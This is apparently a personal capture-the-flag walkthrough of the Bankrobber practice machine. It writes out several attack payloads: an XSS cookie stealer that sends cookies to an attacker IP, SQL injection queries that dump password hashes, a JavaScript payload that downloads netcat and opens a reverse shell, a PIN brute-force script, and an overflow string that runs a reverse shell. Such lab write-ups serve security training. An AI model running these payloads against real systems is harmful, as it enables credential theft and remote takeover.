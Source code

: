 **Ping**
![[Pasted image 20240703133302.png]]

Nmap Scans 
```
mapit 10.10.10.154
```

Nmap Default Scan
![[Pasted image 20240703133354.png]]

Nmap Script and Service Scan
![[Pasted image 20240703133536.png]]
![[Pasted image 20240703133547.png]]

Nmap All Port Scan
![[Pasted image 20240703133833.png]]

On Port 80
![[Pasted image 20240703133933.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.154 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240703140124.png]]

On http://10.10.10.154/notes.txt
![[Pasted image 20240703134401.png]]

Registered user test:test@1234 and logged in
![[Pasted image 20240703134852.png]]

We can see the request when we transfer coin
![[Pasted image 20240703141301.png]]
There are three cookies, which id, username and password, all are base64 encoded.

Lets try to steal admin cookies, so will use the XSS script to do so
```
<script>var i=new Image(); i.src="http://10.10.14.3/?cookie="+btoa(document.cookie);</script>
```
I have used the the classic way if stealing cookies using this Link:https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
I have just put the script in all parameters
![[Pasted image 20240703141717.png]]

And already started python webserver on Port 80
![[Pasted image 20240703141744.png]]
got it, will decode it
```
echo "dXNlcm5hbWU9WVdSdGFXNCUzRDsgcGFzc3dvcmQ9U0c5d1pXeGxjM055YjIxaGJuUnBZdyUzRCUzRDsgaWQ9MQ==" | base64 -d

echo "YWRtaW4=" | base64 -d

echo "SG9wZWxlc3Nyb21hbnRpYw==" | base64 -d
```
![[Pasted image 20240703142048.png]]
So it is **admin:Hopelessromantic** 

Will login as admin using admin cred
![[Pasted image 20240703142246.png]]
![[Pasted image 20240703142316.png]]

I think we can execute command here I guess
![[Pasted image 20240703142427.png]]

Mmmmm.....
![[Pasted image 20240703142502.png]]
but this didn't work

This looks Intresting, because it is beta, so it might contain some vuln
![[Pasted image 20240703142800.png]]

We can see there an another user gio with id 2
![[Pasted image 20240703142835.png]]

Got it, this is vulnerable to sql injection
![[Pasted image 20240703142916.png]]



Will Jump to Initial Foothold....!


We have two database here
![[Pasted image 20240703143029.png]]
User and ID

Burp Request/Response
![[Pasted image 20240703143209.png]]

Will find No.of columns using Union injection 
```
4' UNION SELECT 1,2,3;
```
This worked, there are 3 columns
![[Pasted image 20240703151851.png]]

Will get the content of Username and Password
```
4' UNION SELECT user,password,3 from mysql.user;
```
![[Pasted image 20240703152710.png]]
Got Root hash

Cracked it
![[Pasted image 20240703152824.png]]

But unable to to log in
```
mysql -h 10.10.10.154 -u root -pWelkom1!
```
![[Pasted image 20240703153021.png]]


Refer this link:https://0xdf.gitlab.io/2020/03/07/htb-bankrobber.html
```
<script src="http://10.10.14.3/rev1.js"></script>
```
![[Pasted image 20240703162743.png]]
![[Pasted image 20240703162727.png]]
rev1.js
```
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://localhost/admin/backdoorchecker.php", true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('cmd=dir|powershell -c "Invoke-WebRequest -Uri http://10.10.14.3/nc.exe -OutFile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd.exe 10.10.14.3 443');
```

**user.txt**
![[Pasted image 20240703162940.png]]



So We can see the service running on the machine
![[Pasted image 20240703170018.png]]

Also Found its Pid
```
tasklist
```
![[Pasted image 20240703170056.png]]

Checking Listening ports
```
netstat -ano | findstr LISTENING
```
![[Pasted image 20240703170212.png]]
Can see bankv2.exe is listening on port 910

Will loop back this to our kali machine using plink.exe
```
./plink.exe -l kali -pw kali 10.10.14.3 -R 910:127.0.0.1:910 -P 2222
```
![[Pasted image 20240703170344.png]]

Now we can access the port 910 from our kali machine
```
 nc -v 127.0.0.1 910
```
![[Pasted image 20240703170429.png]]

But it is asking 4 digit Pin code, will create a python script which brute force the combinations
```
import socket
from tqdm import tqdm

def brute_force_pin(host, port):
    # Show the initial received banner once
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        try:
            s.connect((host, port))
            initial_banner = s.recv(1024).decode()
            print(f"Received: {initial_banner.strip()}")
        except Exception as e:
            print(f"Error: {e}")
            return
    
    # Iterate through all possible 4-digit PINs
    for pin in tqdm(range(10000), desc="Brute-forcing PIN", unit="pin"):
        pin_str = f"{pin:04}"  # Format the PIN as a 4-digit string

        # Create a socket connection for each attempt
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            try:
                s.connect((host, port))
                s.recv(1024)  # Receive the initial banner or prompt again (ignored)
                s.sendall((pin_str + "\n").encode())  # Send the PIN
                response = s.recv(1024).decode()  # Receive the response

                # Check if the response indicates a successful login
                if "Access denied" not in response:
                    print(f"[!] Access granted with PIN: {pin_str}")
                    break
            except Exception as e:
                continue

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 910
    brute_force_pin(host, port)
```
Save it and execute it

```
python3 brute.py
```
![[Pasted image 20240703171349.png]]
Found the valid cred is **0021**

I tested the service by sending 1000 bitcoins
![[Pasted image 20240703172303.png]]

Now instead numerical values, will send some strings
![[Pasted image 20240703172402.png]]
Great, it is just executing the string, will use this to  get a shell as admin

I already transferred the nc.exe to the target and it is in C:\\users\\public directory
![[Pasted image 20240703172548.png]]

Will use this to get a shell as admin, I have tried this straight command, it is taking the string after 32 bit.
```
C:\\users\\public\\nc.exe -e cmd.exe 10.10.14.3 443
```
![[Pasted image 20240703172706.png]]
We can see that till **C:\\users\\public\\nc.exe -e cmd** is 32 bit including spaces, so will fill first 32 bit with random string and try it again.

Will first first 32 bit in pwn
```
pwnpwnpwnpwnpwnpwnpwnpwnpwnpwnpwC:\\users\\public\\nc.exe -e cmd.exe 10.10.14.3 443
```
![[Pasted image 20240703173308.png]]
This worked as expected

Got shell as admin
![[Pasted image 20240703173331.png]]

**Root.txt**
![[Pasted image 20240703173455.png]]



Done with Bankrobber........:)
